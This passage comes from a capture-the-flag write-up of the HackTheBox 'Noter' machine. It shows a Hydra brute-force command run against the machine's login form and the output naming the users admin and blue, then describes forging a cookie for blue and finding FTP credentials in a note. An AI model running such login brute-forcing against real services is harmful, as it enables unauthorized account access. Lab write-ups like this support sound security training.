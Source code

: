 ```zsh
$ hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p asdasd noter.htb -s 5000 http-post-form '/login:username=^USER^&password=^PASS^:F=credentials' 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-26 02:57:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://noter.htb:5000/login:username=^USER^&password=^PASS^:F=credentials
[5000][http-post-form] host: noter.htb   login: admin   password: asdasd
[5000][http-post-form] host: noter.htb   login: blue   password: asdasd
```

The other user is `blue`, we create a new cookie and access the account.

## Exploitation

### FTP server

![blue account](/assets/hackthebox/noter/blue_account.png)

Blue is a `VIP` user. There are Import/Export functions only on VIP dashboards. We can see several notes at /notes page, we can find ftp credentials in one of them.

![ftp credentials](/assets/hackthebox/noter/ftp_credentials.png)
